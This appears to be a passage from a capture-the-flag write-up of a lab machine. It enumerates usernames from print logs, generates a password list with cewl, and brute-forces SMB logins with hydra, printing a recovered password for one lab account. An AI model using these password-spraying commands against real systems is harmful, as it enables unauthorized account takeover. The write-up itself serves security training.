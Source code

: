 <img src="/images/fuse/website.png" width="1000" />

I looked inside the logs files and found a bunch of users and created a list of them.

{%highlight text%}
pmerton
tlavel
sthompson
bhult
administrator
{%endhighlight%}

Did a little more enumeration but didn't find anything. Thought that we if have a list of usernames lets try creating a list of passwords and try some good ol' brute force.

I use the tool cewl for this. Cewl is used to take a webpage as input and it spits out list of all possible passwords according to your customization.

{%highlight text%}
./cewl.rb --with-numbers -w fuse.txt http://fuse.fabricorp.local/papercut/logs/html/papercut-print-log-2020-05-29.htm
{%endhighlight%}

You will get a file named fuse.txt and it will contain several hundred passwords. Next I use hydra to try some brute force on the SMB port.

{%highlight text%}
hydra -L users -P fuse.txt smb://10.10.10.193 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 17:46:49
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 845 login tries (l:5/p:169), ~845 tries per task
[DATA] attacking smb://10.10.10.193:445/
[STATUS] 90.00 tries/min, 90 tries in 00:01h, 755 to do in 00:09h, 1 active
[445][smb] Host: 10.10.10.193 Account: tlavel Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
[STATUS] 114.67 tries/min, 344 tries in 00:03h, 501 to do in 00:05h, 1 active